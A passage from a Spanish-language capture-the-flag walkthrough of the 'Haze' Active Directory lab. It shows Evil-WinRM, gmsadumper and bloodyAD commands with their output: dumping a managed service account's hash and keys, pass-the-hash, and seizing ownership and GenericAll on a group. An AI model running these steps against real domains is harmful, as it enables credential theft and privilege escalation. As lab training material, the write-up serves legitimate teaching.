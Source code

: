 ```bat
*Evil-WinRM* PS C:\Users\mark.adams\Documents> Set-ADServiceAccount -Identity "Haze-IT-Backup$" -PrincipalsAllowedToRetrieveManagedPassword mark.adams
```

Ahora podremos sacar el hash de la contraseña sin problemas

```bash
❯ gmsadumper.py -u mark.adams -p 'Ld@p_Auth_Sp1unk@2k24' -d haze.htb
Users or groups who can read password for Haze-IT-Backup$:
 > mark.adams
Haze-IT-Backup$:::4de830d1d58c14e241aff55f82ecdba1
Haze-IT-Backup$:aes256-cts-hmac-sha1-96:cd4412d359a30ff985a770ea7f036f5839bd8fc3fad372fef4ab3aeffbea8783
Haze-IT-Backup$:aes128-cts-hmac-sha1-96:7b8eb6300e7eebc3593607ecce5d7050
```

### edward.martin - haze.htb

Esta cuenta de servicio puede escribir el propietario de este grupo:

![WriteOwner](/assets/writeups/haze/3.png)

Del resto *aparentemente* no hay otra cosa, pero igual puede haber una entrada de la DACL de otro objeto que no podamos ver.

Sobrescribiendo al propietario del grupo y dándonos GenericAll sobre el mismo para agregarnos:

```bash
❯ bloodyAD -u 'Haze-IT-Backup$' -p ':4de830d1d58c14e241aff55f82ecdba1' -d haze.htb --host dc01.haze.htb set owner Support_Services 'Haze-IT-Backup$'
[+] Old owner S-1-5-21-323145914-28650650-2368316563-512 is now replaced by Haze-IT-Backup$ on Support_Services

❯ bloodyAD -u 'Haze-IT-Backup$' -p ':4de830d1d58c14e241aff55f82ecdba1' -d haze.htb --host dc01.haze.htb add genericAll Support_Services 'Haze-IT-Backup$'
[+] Haze-IT-Backup$ has now GenericAll on Support_Services

❯ bloodyAD -u 'Haze-IT-Backup$' -p ':4de830d1d58c14e241aff55f82ecdba1' -d haze.htb --host dc01.haze.htb add groupMember Support_Services 'Haze-IT-Backup$'
[+] Haze-IT-Backup$ added to Support_Services
```
